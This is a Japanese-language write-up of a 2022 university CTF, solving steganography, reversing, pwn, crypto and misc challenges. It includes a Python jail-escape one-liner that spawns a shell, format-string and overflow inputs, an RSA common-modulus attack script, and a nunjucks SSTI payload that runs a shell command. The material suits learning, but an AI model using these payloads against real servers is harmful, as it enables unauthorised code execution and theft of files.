

# UA CSW CTF 2022

- 92nd place
- 1000 points

Category Breakdown

- Steg: 1
- Reverse: 1
- Pwn: 3(2)
- Misc: 2
- Crypto: 3

## Steg

### Binwalk Blue

I lost my white blue image, can you find it?

#### writeup

binwalkで取り出したあと、png形式のファイルがあったため、拡張子を追加しました。
デフォルトだと何も見えなかったため、色の調整をすることでフラグが現れました。

```bash
binwalk --dd='png' Binwalk.png
```


しかし、Leet表記のせいか分かりにくかったです。
以下の`？`は`1, l, I, |`の4通りのどれかのはずです。
（本質じゃないので、もう少しわかりやすくして欲しい）

```bash
# CTFUA{t328_3Ht_2?_Kl4wN1B}
CTFUA{t328_3Ht_2|_Kl4wN1B}
```

## Reverse

### Hidden

Not all obfuscation is good obfuscation... Find the correct number!

#### writeup

実行してみるとある値を入れないとフラグが出なさそう。

```bash
$python3 hidden.py
Hi! Im looking for a number, any number...
1
```

hidden.pyを開くと難読化が施されていた。
先頭の文字列をやたら参照している箇所があっため、別ファイルに移植して実行してみると`Hi! ...`の文字列が出てきた。

```python
baa_baa_baa_aaaaa='1234567890qwertyuiopasdfghjklzxcvbnm! QWERTYUIOPASDFGHJKLZXCVBNM{}_.,'

baa_O0O0OO=baa_baa_baa_aaaaa[53]+baa_baa_baa_aaaaa[17]+baa_baa_baa_aaaaa[36]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[45]+baa_baa_baa_aaaaa[35]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[28]+baa_baa_baa_aaaaa[18]+baa_baa_baa_aaaaa[18]+baa_baa_baa_aaaaa[27]+baa_baa_baa_aaaaa[17]+baa_baa_baa_aaaaa[34]+baa_baa_baa_aaaaa[24]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[23]+baa_baa_baa_aaaaa[18]+baa_baa_baa_aaaaa[13]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[20]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[34]+baa_baa_baa_aaaaa[16]+baa_baa_baa_aaaaa[35]+baa_baa_baa_aaaaa[33]+baa_baa_baa_aaaaa[12]+baa_baa_baa_aaaaa[13]+baa_baa_baa_aaaaa[68]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[20]+baa_baa_baa_aaaaa[34]+baa_baa_baa_aaaaa[15]+baa_baa_baa_aaaaa[37]+baa_baa_baa_aaaaa[34]+baa_baa_baa_aaaaa[16]+baa_baa_baa_aaaaa[35]+baa_baa_baa_aaaaa[33]+baa_baa_baa_aaaaa[12]+baa_baa_baa_aaaaa[13]+baa_baa_baa_aaaaa[67]+baa_baa_baa_aaaaa[67]+baa_baa_baa_aaaaa[67]

print(baa_O0O0OO) # Hi! Im looking for a number, any number...
```

標準入力と比較する箇所がどこかにあるはずと思い、調べると怪しい関数があった。

```python
def quack_quack_IΙΙI1I ():
	return baa_baa_baa_aaaαa [0 ]+baa_baa_baa_aaaαa [2 ]+baa_baa_baa_aaaαa [0 ]+baa_baa_baa_aaaαa [1 ]+baa_baa_baa_aaaαa [4 ]+baa_baa_baa_aaaαa [1 ]+baa_baa_baa_aaaαa [9 ]
```

移植して実行すると`1312520`が出てきた。あとはこれを入力すれば良い。

```python
# 1312520
print(baa_baa_baa_aaaaa[0]+baa_baa_baa_aaaaa[2]+baa_baa_baa_aaaaa[0]+baa_baa_baa_aaaaa[1]+baa_baa_baa_aaaaa[4]+baa_baa_baa_aaaaa[1]+baa_baa_baa_aaaaa[9])
```

```bash
% python3 hidden.py
Hi! Im looking for a number, any number...
1312520
CTFUA{n0tall0bfusc4t10ni5go0d}
```


## Pwn

### Badass quotes: 100

Give me a badass quote!!

```
$ nc cybersecweek.ua.pt 2010
```

#### writeup

ソースコードからバッファを比較している部分があったため、調整してフラグを出しました。

```bash
% nc cybersecweek.ua.pt 2010
I CaN HaS BaDaSs QuOtE?
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I haz a sad AAAA...
 ,_     _
 |\_,-~/
 / _  _ |    ,--.
(  @  @ )   / ,-'
   _T_/-._( (
 /         `.
|         _   |
   ,  /      |
  || |-___   /
 ((_/`(____,-'
% nc cybersecweek.ua.pt 2010
I CaN HaS BaDaSs QuOtE?
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABaDaSs I Am
CTFUA{!YoU_Ar3_B4dAss!}
 ,_     _
 |\_,-~/
 / _  _ |    ,--.
(  @  @ )   / ,-'
   _T_/-._( (
 /         `.
|         _   |
   ,  /      |
  || |-___   /
 ((_/`(____,-'
```

### Jail Escape: 100

You enter the localhost, and you are stuck! There is a flag file for you to GET. Do not try to escape the second jail, the flag is in the first one. It's python, only python, nothing more than python.

```
$ nc cybersecweek.ua.pt 2011
```

#### writeup

シェルを起動したあと、ディレクトリを探索してもflagが見つかりませんでした。
python3のパッケージが内部にあったため、localhostに立てたwebサーバのどこかにフラグがあると思い、`http://localhost/flag`を探索すると見つかりました。

```python
# after 'nc cybersecweek.ua.pt 2011'
# exec /sh
({x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s']).spawnlp(({x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s']).P_WAIT, 'sh', 'sh')
```

```bash
$ python3
> import requests
> requests.get('http://localhost/flag').text
'CTFUA{#_jail_run_away_#}\n'
```


### Random Pass: 100

root has a random password. Find the password to get the file.

```bash
$ nc cybersecweek.ua.pt 2012
```
#### writeup

> **Note**
> 自信ありません。


配布バイナリがないため、format string bugを利用すると思い、%p, %sなどを打ち込んでました。すると`%p.`の16個目あたりから`0x70252e`(`p%.`)を返すようになりました。
入力したフォーマット指定子が、スタックを上書きし始めたので、このあたりが怪しいと思い、手間にrootをおいて15個の`%p.`を設置すると、Userチェックを突破しました。
Passは適当に`root`と入力すると通りました。（予想：どこかスタック領域参照時に上の％pにより、ユーザ名と一致していたら通るようになっているかもしれません。）

```bash
$ nc cybersecweek.ua.pt 2012
Generating Random Pass...Done
User: root %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
root 0x7efc245f1a03.(nil).0x7efc24521e8e.0x7ffca42031b0.(nil).0x4040e0.0x402020.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)

Pass: root
CTFUA{-_printf_is_not_print_-}
```


## misc

### NotHiNorLo: 100

The flag is right there for you to grab. It's up to you if you want to go on... and on... and on... untill you randomly find the answer, or if you'll work smart to get it.

#### writeup

実行しても、数当てゲームが始まって、フラグがでそうにありません。
ninjaで開くと、以下の部分が怪しい。

```c
00001247      int64_t var_98 = 0x52627b4155465443;
0000124e      int64_t var_90 = 0x637230665f333775;
00001269      int64_t var_88 = 0x5f736b7230775f33;
0000126d      int64_t var_80 = 0x336d3174336d3073;
00001271      int16_t var_78 = 0x7d73;
```

gdbで実行しながら、レジスタを見ると、以下の内容が入っていました。
ASCIIコードでエンコードしてもよかったですね。

```bash
CTFUA{bR
u73_f0rc
3_w0rks_
s0m3t1m3
s}
# 整形後
CTFUA{bRu73_f0rc3_w0rks_s0m3t1m3s}
```

## crypto

### Common modulus numbers: 100

A couple of students decided to share a modulus for RSA encryption. A third student wanted to send both a message. They obiously didn't attend Professor Tomás Oliveira e Silva's classes. The file contains the common modulus, the 2 exponents and the 2 ciphered texts. Can you find the original message?

#### writeup

[こちら](https://inaz2.hatenablog.com/entry/2016/01/15/011138)のサイトを参考にさせて頂きました。

```python
import gmpy
from Crypto.Util.number import long_to_bytes

N=29305921737369886279038152431458707745355920195340790633550446377488686490512301178207697116246186778190924968443242727209192145361597954397703409338069729744292087169349435205477111519898623053938076788571744581299492224350113161859881956596600525450754261861393876554473809245794408742597102639891003381267790265467110910689556328239201649010942790888964428993459470671962067180710623140718060936541350682131434255836234235317518687234833999941547912869602186172312623135615225793969932093534558250060291946557717352685360398453623552366165987007320321792084111530716138710220857188412330321516912749540601365795149
e1=65536
e2=17
C1=7351998152923111470294124803066775015114683074072771445691080243371404973542712549680112494258904659021284374456291176201665809185171260050697762658547638310947833522734650580644111431387517021868886145969673994994716591904271646563517826585280383232287066954868541205059424614585428845307919787362897495337549933634385558421506937186185820371287482316083539135225148967053559960291030264396319218652703479364309149535233799468133301886274312241438268180090474799238264932143708688705810772181495694270516639597093030652163699128226440802332931824857648885820801895950120801191850508661128764709243443284561349709164
C2=27952544053645910147582022180342450282885002344383448723362590332685825671415469835713812120541190506151131601994364261174492251443820879825081178625888284653451572008519376369598562129059429679308925154199630941540325208556932476733240733751805502663573433099523015820987485758386252121503984513364148041158986990173791561162327386860971438879823904316485263675116762490504450175345331901821821433003998337422420001224349434352618899797013984526278675024775861893474452267297072366637072762253586134059639659957041091424010223606781616430556510087692794009282759707693423796813562129251344684444608024491992669686350

def common_modulus_attack(c1, c2, e1, e2, n):
    gcd, s1, s2 = gmpy.gcdext(e1, e2)
    if s1 < 0:
        s1 = -s1
        c1 = gmpy.invert(c1, n)
    elif s2 < 0:
        s2 = -s2
        c2 = gmpy.invert(c2, n)
    v = pow(c1, s1, n)
    w = pow(c2, s2, n)
    m = (v * w) % n
    return m


if __name__ == '__main__':
  m = long_to_bytes(common_modulus_attack(C1, C2, e1, e2, N))
  print(m) # b'}SuLuDoM_eMaS_hUrB_nOmC{AUFTC'
```

順序を逆にすればフラグです。

```
CTFUA{CmOn_BrUh_SaMe_MoDuLuS}
```

### Blind Soldier: 100

Seems like in their haste to deliver a secret message to the Army's first blind soldier, someone forgot braille doesn't translate well to a digital medium... Help them decode this message! (And don't forget, encoding is most definitely not encryption!)


#### writeup

点字を解読する問題。ツールを使いました。

https://unicode-table.com/jp/tools/braille/

解読後、よくわからない単語が並んでいたため、調べるとPhonetic codeと一致しました。

https://atubetu.jp/radio/phonetic1/

頭文字だけ取れば良さそうなので、抽出したらフラグになりました。このとき、アンダーバー、数字、コンマに気をつけました。

https://cryptii.com/pipes/nato-phonetic-alphabet


```txt
⠉⠓⠁⠗⠇⠊⠑⠀⠞⠁⠝⠛⠕⠀⠋⠕⠭⠞⠗⠕⠞⠀⠥⠝⠊⠋⠕⠗⠍⠀⠁⠇⠋⠁⠀{⠞⠓⠗⠑⠑⠀⠝⠕⠧⠑⠍⠃⠑⠗⠀⠉⠓⠁⠗⠇⠊⠑⠀⠗⠕⠍⠑⠕⠀⠽⠁⠝⠅⠑⠑⠀⠏⠁⠏⠁⠀⠞⠁⠝⠛⠕⠀⠞⠓⠗⠑⠑⠀⠙⠑⠇⠞⠁⠀⠉⠕⠍⠍⠁⠀⠸⠞⠁⠝⠛⠕⠀⠓⠕⠞⠑⠇⠀⠕⠝⠑⠀⠎⠊⠑⠗⠗⠁⠀⠸⠊⠝⠙⠊⠁⠀⠎⠊⠑⠗⠗⠁⠀⠸⠝⠕⠧⠑⠍⠃⠑⠗⠀⠵⠑⠗⠕⠀⠞⠁⠝⠛⠕⠀}
# decode
charlie tango foxtrot uniform alfa {three november charlie romeo yankee papa tango three delta comma _tango hotel one sierra _india sierra _november zero tango }
# FLAG
ctfua{3ncrypt3d,_th1s_is_n0t}
```


### A Computer's Best Friend: 100

We left our flag unattended for a couple minutes and the computer broke it down to bits! Can you identify how the machine did it and revert the process?

#### writeup

2進数をasciiコードでデコードしたあと、magicに突っ込みました。

```
# bin -> ascii
KEYVER2WKVDDOZDKJZJWKVRZKRHEOWL2LAZDCVSRGJUGMTJSGVVE2R2RPJNEQMB5
```

https://gchq.github.io/CyberChef/#recipe=From_Base32('A-Z2-7%3D',false)From_Base64('A-Za-z0-9%2B%5C%5C-%3D',true)&input=S0VZVkVSMldLVkRET1pES0paSldLVlJaS1JIRU9XTDJMQVpEQ1ZTUkdKVUdNVEpTR1ZWRTJSMlJQSk5FUU1CNQ

```
CTFUA{v3Ry_S4f3_mUCh_3nc0d3d}
```


---

## 解けなかった問題

### So close but so far: 100 (forensics)

Don't hate me, I was learning some advanced git techniques. But I'm still a git noob.

#### writeup

git logを見るとコミットの履歴があった

```bash
git log
commit 273dcd236669619c701fe51a50666aafae619dea (HEAD -> dev)
Author: Jo<C3><A3>o Almeida <joao.rafael.almeida@ua.pt>
Date:   Thu Apr 14 00:47:50 2022 +0100

    remove private information

commit d102c491e01c9015aaef1a73c7ee96712ca0df4f
Author: Jo<C3><A3>o Almeida <joao.rafael.almeida@ua.pt>
Date:   Thu Apr 14 00:47:21 2022 +0100

    Code to still things

commit da384cb3f4c3a14f0350c11d55e38da68981b496
Author: Jo<C3><A3>o Almeida <joao.rafael.almeida@ua.pt>
Date:   Thu Apr 14 00:36:28 2022 +0100

    now it is right

commit 9fff15ee8e7e72e507e6e884b7f9610cf64a08fc
Author: Jo<C3><A3>o Almeida <joao.rafael.almeida@ua.pt>
Date:   Thu Apr 14 00:35:43 2022 +0100

    first commit
```

branchを見るとmaster, devの2つで、masterに移動しようとすると強制的にdevに戻される。
```bash
$git branch
 *dev
  master
$git checkout master
Switched to branch 'master'
Don't do that or I will hack your computer...
Switched to branch 'dev'
```

`.git`内に移動を防止するスクリプトがあると思い、`hack`で文書検索をすると`.git/hooks/post-checkout`がひっかかった。あとはここをコメントアウトして動作しなくなるようにすれば良い。

```bash
#!/bin/sh

foo=$(git config --get my.foo)
if [[ "$foo" = "yes" ]];then
    exit 0
fi

oldref=$1
newref=$2
flag=$3
if [[ "$flag" -eq 1 ]] && [[ "$(git status --porcelain | grep -oe '^??' | uniq)" = ?? ]];then
	echo "Don't do that or I will hack your computer..."
    git -c my.foo=yes checkout -
fi
exit 0
```

HEADを前へ移動すると`flag.txt`が現れた。

```bash
% git checkout -f master
% git log
b7d9246 (HEAD -> master) clean evidences
3e00ad0 now it is easy
9fff15e first commit
% git checkout 3e00
Note: switching to '3e00'.
% st
HEAD detached at 3e00ad0
Untracked files:
  (use "git add <file>..." to include in what will be committed)
        configs

nothing added to commit but untracked files present (use "git add" to track)
% cat flag.txt
CTFUA{g1t_h00ks_4r3_fun}
```


### Credit Score: 100(Misc)

Use this 76 117 104 110

The sum of all valid credit card numbers is the flag.

#### writeup

Luhns アルゴリズムを使うらしい。

https://ja.wikipedia.org/wiki/Luhn%E3%82%A2%E3%83%AB%E3%82%B4%E3%83%AA%E3%82%BA%E3%83%A0


### SunSet introspecTIon: 100(web)

Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.


URL: http://cybersecweek.ua.pt:2003/

#### writeup


SSTIアタックを使うらしい。

`{{2*2}}`をフォームに入力すると`4`が表示された。

内部ではnunjuncksが動いていて、nunjucks SSTIで解けるらしい。

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /app/flag')")()}}
```

ref.

- https://osfork.com/2022/05/27/ua-csw-ctf-2022-write-up-dump/
- https://blog.hamayanhamayan.com/entry/2021/12/15/225142

